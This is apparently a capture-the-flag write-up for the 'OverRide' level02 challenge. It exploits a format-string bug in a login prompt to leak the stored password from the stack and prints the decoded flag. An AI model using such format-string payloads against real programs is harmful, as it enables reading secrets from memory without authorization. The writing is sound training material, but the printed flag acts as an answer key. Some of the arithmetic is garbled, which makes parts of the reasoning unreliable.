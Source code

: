 It is not possible to overflow this program but we have this ;

```c
printf((char *)username);
puts(" does not have access!");
```

We can perform a format string exploit

```sh
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAAAAA %28$p
--[ Password:
*****************************************
AAAAAAAA 0x4141414141414141 does not have access!
level02@OverRide:~$
```

We found where the string is now.

We know that the 1 argument address passed to a function is store in rdi in asm x64.

```sh
0x0000000000400a96 <+642>:   lea    -0x70(%rbp),%rax
0x0000000000400a9a <+646>:   mov    %rax,%rdi
0x0000000000400a9d <+649>:   mov    $0x0,%eax
0x0000000000400aa2 <+654>:   callq  0x4006c0 <printf@plt>
```

So our format parameter found at the offset of 28 is at rbp - 0x70 (112).

```
0x0000000000400a4a <+566>:   lea    -0x110(%rbp),%rcx
0x0000000000400a51 <+573>:   lea    -0xa0(%rbp),%rax
0x0000000000400a58 <+580>:   mov    $0x29,%edx
0x0000000000400a5d <+585>:   mov    %rcx,%rsi
0x0000000000400a60 <+588>:   mov    %rax,%rdi
```

And we know that the content of .pass that is cmp with our input is at rbp - a0 (160)

160 - 112 = 48

%x read 8 bytes by 8 bytes so

28 - 48/8 = 22

flags are 40 char long

40 * 8 = 5

so `%22$x %23$x %24$x %25$x %26$x`

```sh
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$s %23$s %24$s %25$s %26$s
--[ Password: gg
*****************************************
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
```

Then we pass it to our python script to read it has a string and in the good way

```sh
hkovac@machine:~/override(main⚡) » python3 script.py 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
